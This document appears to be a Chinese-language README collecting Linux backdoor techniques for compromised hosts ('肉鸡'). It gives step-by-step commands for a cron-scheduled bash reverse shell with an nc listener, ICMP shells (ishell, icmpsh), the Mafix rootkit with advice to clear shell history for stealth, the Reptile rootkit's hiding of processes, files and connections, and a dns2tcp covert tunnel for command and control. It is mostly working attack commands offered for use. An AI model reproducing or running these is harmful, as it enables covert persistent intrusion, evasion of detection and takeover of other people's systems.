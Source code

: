 # backdoor工具收藏

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html<br>
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
